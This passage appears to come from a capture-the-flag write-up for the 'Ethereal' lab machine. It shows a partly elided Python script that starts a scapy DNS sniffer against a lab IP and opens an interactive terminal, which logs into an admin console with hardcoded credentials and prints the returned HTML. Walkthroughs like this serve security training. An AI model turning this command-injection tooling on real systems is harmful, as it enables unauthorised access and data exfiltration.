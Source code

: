 
      1 #!/usr/bin/env python3
      2 
      3 import requests
      4 from cmd import Cmd
      5 from requests.auth import HTTPBasicAuth
      6 from scapy.all import *
      7 from threading import Thread
      8 
      9 
     10 class dns_sniff(Thread):
    ...
     27 class Terminal(Cmd):
     28     prompt = "ethereal> "
     29     
     30 
     31     def __init__(self):
     32         super().__init__()
     33         auth = HTTPBasicAuth('alan','!C414m17y57r1k3s4g41n!')
     34         resp = requests.get('http://ethereal.htb:8080/', auth=auth)
     35         print(resp.text)
     36 
     37 
     38     def default(self, args):
     39         print(f"Entered: {args}")
     40 
     41 
     42 dns = dns_sniff(interface='eth0', target_ip='10.1.1.153')
     43 dns.start()
     44 
     45 term = Terminal()
     46 term.cmdloop()



On running, it works:



    root@kali# ./ethereal_shell.py

    <!DOCTYPE.md>
    .md >
    <head>
      <meta charset="UTF-8">
      <title>Admin Console</title>
        <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/meyer-reset/2.0/reset.min.css">
          <link rel="stylesheet" href="css/style.css">
    </head>
    <body>
      <div>
            <h1>Test Connection<br/></h1>
           <div>
            <form method="post" action="./">
    <input type="hidden" name="__VIEWSTATE" value="/wEPDwULLTE0OTYxODU3NjhkZDq+FRgU9epds8vdzQCOhWx4WFqAM2hNIbgH2RI3jXSz" />
    <input type="hidden" name="__VIEWSTATEGENERATOR" value="CA0B0334" />
    <input type="hidden" name="__EVENTVALIDATION" value="/wEdAAOFr9TrHWt+2bA4FwNr3j1Y4CgZUgk3s462EToPmqUw3OKvLNdlnDJuHW3p+9jPAN9kKYZ9rDh9NVw3pnVFLEyhi/zP9ndEQ4bcuvdL5zBCfg==" />
                <input name="search" type="text" />
                <input type="submit" name="ctl02" value="" type="submit" value=" " />
            </form>
            </div>
    </div>
    <h2><font face="Verdana">Click to test connection</font></h2>
      <script src='http://cdnjs.cloudflare.com/ajax/libs/jquery/2.1.3/jquery.min.js'></script>
        <script  src="js/index.js"></script>